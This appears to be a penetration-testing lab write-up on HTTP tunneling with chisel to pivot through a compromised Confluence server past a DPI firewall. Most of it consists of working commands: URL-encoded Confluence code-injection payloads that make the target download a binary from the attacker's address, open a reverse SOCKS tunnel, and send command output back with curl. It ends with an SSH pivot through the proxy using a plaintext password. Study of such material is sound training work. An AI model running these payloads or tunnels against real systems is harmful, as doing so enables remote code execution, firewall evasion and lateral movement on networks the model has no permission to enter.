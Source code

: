 # HTTP Tunneling

Our scenario:

* We have compromised `CONFLUENCE01` and can execute commands through HTTP requests.
* A DPI solution (`FIREWALL/INSPECTOR`) is blocking all outbound traffic except HTTP, and only TCP port `8090` is open on `CONFLUENCE01`. This means we can use tools like `curl` and `wget`.
* As a result, a standard reverse shell or an SSH remote port forward, which doesn't follow the HTTP format, would be blocked by the DPI.
* We have obtained credentials for `PGDATABASE01`.
* Our goal is to SSH directly from Kali to `CONFLUENCE01`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FE45LC2WbhFMMhiHd0yvC%252Fhttp_tunneling.png%3Falt%3Dmedia%26token%3D5264f66a-25ec-4ffe-8397-fd5d07c90485&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=70a87cc7&#x26;sv=2" alt=""><figcaption></figcaption></figure>

`chisel` is an HTTP tunneling tool that encapsulates data within HTTP packets and uses SSH for encryption, allowing secure data transmission through firewalls or restrictive networks.

1. We’ll run a Chisel server on the Kali machine to accept a connection from a client on `CONFLUENCE01`.
2. The server will bind a SOCKS proxy port, tunnel traffic through an SSH-encrypted HTTP connection, and the client will forward it to its destination.

Chisel tunnels traffic over HTTP, bypassing DPI. The Kali Chisel server listens on TCP port `1080` (SOCKS proxy). Traffic sent to this port is encapsulated in HTTP, sent to the client, and forwarded to its destination.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F4yF1xzfTymZW0WMsJ7M0%252Fhttp_tunneling_chisel.png%3Falt%3Dmedia%26token%3D18134f44-2f61-4d5b-84a1-3c183e4fb6e8&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=ed761164&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# modify the vulnerability in order to transfer the binary on CONFLUENCE01
# command: wget 192.168.45.235/chisel -O /tmp/chisel && chmod +x /tmp/chisel
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.235/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# start the chisel server (reverse port forward) on Kali
$ chisel server --port 8080 --reverse
2025/04/20 16:25:09 server: Reverse tunnelling enabled
2025/04/20 16:25:09 server: Fingerprint CaRdMXQ8pQ4mwvVx3pGUSV5IrPsCf3BdDnoEoAPU2cU=
2025/04/20 16:25:09 server: Listening on http://0.0.0.0:8080
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# connent from the client to the server
# command: /tmp/chisel client 192.168.45.235:8080 R:socks > /dev/null 2>&1 &
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.235:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
{% endcode %}

We get a new connection on the Chisel server.

```bash
$ chisel server --port 8080 --reverse
...
2025/04/20 16:29:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

$ sudo netstat -ntlp | grep 1080
tcp  0  0 127.0.0.1:1080  0.0.0.0:*   LISTEN  930/./chisel
```

In case of errors.

{% code overflow="wrap" %}
```bash
# check traffic for error messages
$ sudo tcpdump -nvvvXi tun0 tcp port 8080

# command: /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
$ curl http://192.168.246.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.235:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.235:8080/%27%29.start%28%29%22%29%7D/
```
{% endcode %}

Our SOCKS proxy on Kali listens at `127.0.0.1:1080`. To connect SSH through it to `PGDATABASE01`, we'll use SSH’s `ProxyCommand` option, which lets us define a proxy-aware connection method. While OpenBSD Netcat supports this natively, Kali’s version doesn’t — so we’ll use `ncat`, the Nmap team’s Netcat alternative, which does.

We’ll pass an `ncat` command to `ProxyCommand`, telling it to use the SOCKS5 proxy at `127.0.0.1:1080`. The `%h` and `%p` tokens are placeholders SSH replaces with the target host and port before executing the command.

{% code overflow="wrap" %}
```bash
$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.246.215
...
database_admin@10.4.246.215's password: #sqlpass123
...
database_admin@pgdatabase01:~$
```
{% endcode %}

